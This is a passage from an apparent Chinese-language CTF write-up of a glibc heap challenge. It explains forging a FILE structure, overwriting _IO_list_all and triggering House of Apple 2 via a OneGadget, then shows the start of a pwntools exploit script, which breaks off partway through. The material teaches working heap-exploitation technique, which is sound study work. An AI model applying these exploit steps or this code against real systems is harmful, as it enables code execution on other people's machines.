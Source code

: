 ### 第六步

伪造file结构体， *Ml* 把结构体写到堆上，然后 *FlMs* 把堆地址写到`_IO_list_all`上，
最后退出程序就会在退出时触发House of Apple

需要注意的是，小堆块分配到`_IO_list_all`上后就不能再释放，因为过不了检测了；
此外在 *Fl* 时，伪造的结构体的`_flags`会被覆写为`heap >> 12`，并且还无法调位置——
整个结构体长0xe8，而我们只能写0xf0个字节；由于`_flags`不可能是`  sh;`，
所以我们必须使用OneGadget

这个exp的成功概率只有1/8，因为House of Apple 2对`_flags`有要求，
`_flags & (_IO_NO_WRITES | _IO_UNBUFFERED | _IO_CURRENTLY_PUTTING) == 0`，
`_flags`在开启了aslr后是随机的，因此这些位都有可能是1

{% notel purple fa-check 更优解 %}
看了一血的解答发现exp是可以百分百成功的，只需要在第一次小堆块溢出写时，
把大堆块的`prev_size`写作`  sh;`，然后将伪造的FILE往前调0x10，
就可以绕过释放时`fd`的限制，具体如图所示

![optimized](/assets/ningbo2024/optimized.png)
{% endnotel %}

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        if lo & 4:
            EXE = './orig'
            libc = ELF('/usr/lib/libc.so.6')
            arena = 0x1daac0
        else:
            EXE = './minho'
            libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.1_amd64/libc.so.6')
            arena = 0x219c80
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b malloc\nb free')
            # gdb.attach(sh, 'b _IO_flush_all\nc')

    def malloc(large:bool, cont:bytes):
        sh.sendlineafter(b'3:', b'1')
        sh.sendlineafter(b'big', b'2' if large else b'1')
        sleep(0.25)
        sh.send(cont)

    def free():
        sh.sendlineafter(b'3:', b'2')
        # if sh.recvuntil(b'wrong', timeout=0.125):
        #     warn(f'freeing null chunk @ line {inspect.stack()[1].lineno}')

    def show() -> bytes:
        sh.sendlineafter(b'3:', b'3')
```